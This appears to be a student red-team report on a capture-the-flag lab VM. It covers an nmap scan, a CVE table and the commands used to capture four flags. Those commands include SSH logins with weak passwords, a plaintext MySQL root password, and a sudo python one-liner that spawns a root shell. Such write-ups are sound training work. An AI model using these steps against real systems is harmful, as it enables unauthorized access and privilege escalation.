


Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation

### Exposed Services
TODO: Fill out the information below.
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1

flag1.txt: 

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag

flag2.txt: 

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: 

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- mysql -u root -p
- R@v3nSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: 

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
